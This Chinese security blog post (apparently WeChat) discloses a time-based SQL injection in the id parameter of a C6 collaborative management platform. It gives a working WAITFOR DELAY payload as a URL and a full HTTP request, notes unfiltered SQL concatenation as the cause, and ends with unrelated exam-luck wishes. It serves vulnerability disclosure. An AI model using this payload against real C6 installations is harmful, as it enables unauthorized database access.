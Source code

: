 #  某C6协同管理平台审计

原创 Shad0wJe  [ 99Sec ](javascript:void\(0\);)

**99Sec** ![]()

微信号 _99Sec

功能介绍 不定期分享一些web渗透、红队攻防、应急响应等技术技巧

____

___发表于_

收录于合集 #审计 1个

## 1\. 漏洞点

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1

## 2\. 复现

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+'0%3a0%3a5'+--%20and%201=1

  *   *   *   *   *   *   *   * 

    
    
    GET /C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+%270%3a0%3a5%27+--%20and%201=1 HTTP/1.1Host: 192.168.4.96User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeUpgrade-Insecure-Requests: 1

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619142139.png)

## 3\. 代码审计

未过滤，直接拼接SQL语句导致注入产生

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619142140.png)

![]()

## 4\. 祝广大考生金榜题名

## 亲爱的广大考生们：

高考到来，衷心祝愿你们都能发挥出最好的水平，取得优异的成绩。高考是人生中的一个重要节点，它不仅是对自己多年学习的检验，更是未来道路的起点。在这个重要的时刻，我希望你们能够保持冷静和自信，认真审题，仔细答题，严格按照考试规定和时间完成考试。同时，也希望你们能够适度放松，保持身心健康，以最好的状态迎接考试。最后，再次祝愿你们金榜题名，前程似锦，实现自己的人生理想。希望你们在高考中发挥出最好的水平，为自己的未来奠定坚实的基础。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619142141.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

